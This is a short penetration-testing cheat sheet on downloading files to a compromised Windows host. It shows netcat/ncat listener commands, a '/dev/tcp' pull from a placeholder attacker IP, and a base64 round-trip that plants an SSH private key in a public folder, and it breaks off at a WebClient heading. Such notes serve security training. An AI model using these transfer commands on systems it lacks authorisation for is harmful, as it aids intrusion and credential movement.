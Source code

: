 # Downloading to Windows

## Netcat

### NetCat Receiving File via Bind Shell
```powershell
# Cmd prompt only.  < > don't work in PS
nc -l -p [Port] > [Input_File]
```

### Ncat Receiving File via Bind Shell
```powershell
ncat -l -p [Port] --recv-only > [Input_File]
```

### NetCat Receiving File via Reverse Shell
```powershell
cat < /dev/tcp/[Attacker_IP]/[Port] > [Input_File]
```


## PowerShell B64 Encode & Decode

### Check SSH Key MD5 hash in Kali
```bash
# kali
md5sum id_rsa
	4e301756a07ded0a2dd6953abf015278 id_rsa
```

### Encode SSH Key to Base64 in Kali
```bash
cat id_rsa | base64 -w 0; echo
	[Base64_Output]
```

### Copy and Paste Content into Windows
```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("[Base64_Output]"))
```

### Confirm MD5 Hashes Match
```powershell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
	Algorithm     Hash                                Path
	---------     ----                                ----
	MD5           4E301756A07DED0A2DD6953ABF015278    C:\Users\Public\id_rsa
```


## System.Net.WebClient class
- Used to download a file over HTTP, HTTPS, or FTP.
